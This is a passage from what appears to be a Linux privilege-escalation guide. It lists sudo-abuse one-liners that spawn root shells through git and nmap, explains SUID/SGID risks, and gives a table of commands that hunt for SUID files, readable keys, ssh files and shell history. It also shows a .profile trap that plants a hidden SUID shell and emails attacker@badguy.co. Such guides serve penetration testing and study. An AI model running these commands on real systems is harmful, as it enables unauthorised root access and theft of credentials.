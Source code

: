 | `export PAGER=./payload.sh` `git -p help`| Execute the program payload.sh as root |
| `export PATH=/tmp:$PATH` `ln -sf /tmp/payload.sh /tmp/git-help` `git --exec-path=/tmp help` | Execute the program payload.sh as root |
| `ls -la .bashrc` `export HOME=.` `bash` | Launch a bash as root |
| `nmap --interactive` `!bash` | Launch a bash as root |

# VII. File permission

## 1. File permission overview

There are a few possibilities to realize a privilege escalation with misconfigured file permission.

First, if you let the read access of a sensitive file like a private key, or a script running as daemon or in the cron.

SUID (Set User ID) or SGID (Set Group ID) files must be avoided as much as possible.
They are needed for tasks that require higher privileges than those which common users have, such as `passwd` command.

```sh
ls -la /usr/bin/passwd
-rwsr-xr-x 1 root root 47032 May 16  2017 /usr/bin/passwd
```

An attacker can also set up some traps. He can add to the `.profile` some code like this one: `cp /bin/bash /tmp/.hiddenShell && chmod 4777 /tmp/.hiddenShell && mail –s "Shell done" attacker@badguy.co`. This will create a hidden shell `/tmp/.hiddenShell` with the SUID activate and full permissions for all users, finally it will send an email to the attacker. There are plenty of different traps that can be done, the imagination is the only limit.

## 2. File permission information gathering

Some basic commands to collect some clues to realize a privilege escalation abusing file permission.

| Command                | Result                            |
| :-------------------- | :------------------------------- |
| `find / -perm -4000 -type f 2>/dev/null` | Find SUID files |
| `find / -uid 0 -perm -4000 -type f 2>/dev/null` | Find SUID files owned by root |
| `find / -perm -2000 -type f 2>/dev/null` | Find SGID files (sticky bit) |
| `find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null` | Find world-writeable files excluding `proc` file |
| `find / -type f '(' -name *.cert -or -name *.crt -or -name *.pem -or -name *.ca -or -name *.p12 -or -name *.cer -name *.der ')' '(' '(' -user support -perm -u=r ')' -or '(' -group support -perm -g=r ')' -or '(' -perm -o=r ')' ')' -or -name *.cer -name *.der ')' 2> /dev/null` | Find keys or certificates you can read |
| `find /home –name *.rhosts -print 2>/dev/null` | Find rhost config files |
| `find /etc -iname hosts.equiv -exec ls -la {} 2>/dev/null ; -exec cat {} 2>/dev/null ;` | Find hosts.equiv, list permissions and cat the file contents |
| `cat ~/.bash_history` | Display current user history |
| `ls -la ~/.*_history` | Dislay the current user various history files |
| `ls -la ~/.ssh/` | Check current user's ssh files |
| `find /etc -maxdepth 1 -name '*.conf' -type f` or `ls -la /etc/*.conf` | List the configuration files in /etc (depth 1, modify the maxdepth param in the first command for change it) |
| `lsof | grep '/home/\|/etc/\|/opt/'` | Display the possibly interesting openfiles |
